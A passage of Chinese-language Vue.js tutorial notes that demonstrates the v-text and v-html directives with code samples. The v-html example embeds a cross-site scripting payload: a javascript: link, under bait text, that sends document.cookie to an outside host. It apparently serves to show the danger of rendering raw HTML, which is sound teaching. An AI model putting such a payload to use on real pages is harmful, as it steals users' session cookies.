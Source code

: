 ### ****内置指令 v-text/html/cloak/once****

1.  ****v-text指令****

```jsx
<body>
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-text="name"></div>
			<div v-text="str"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false 
		
		new Vue({
			el:'#root',
			data:{
				name:'JOJO',
				str:'<h3>你好啊！</h3>'
			}
		})
	</script>

```

- 之前学过的指令：
    - `v-show`：条件渲染 (动态控制节点是否展示)
    - `v-for`：遍历数组 / 对象 / 字符串
    - `v-on`：绑定事件监听，可简写为`@`
    - `v-if`：条件渲染（动态控制节点是否存存在）
    - `v-else`：条件渲染（动态控制节点是否存存在）
    - `v-model`：双向数据绑定
    - `v-bind`：单向绑定解析表达式，可简写为`:`

`v-text`指令：

1. 作用：向其所在的节点中渲染文本内容
2. 与插值语法的区别：`v-text`会替换掉节点中的内容，`{{xx}}`则不会。

1. ****v-html指令****

```jsx
<body>
		<div id="root">
			<div>Hello，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'JOJO',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
```
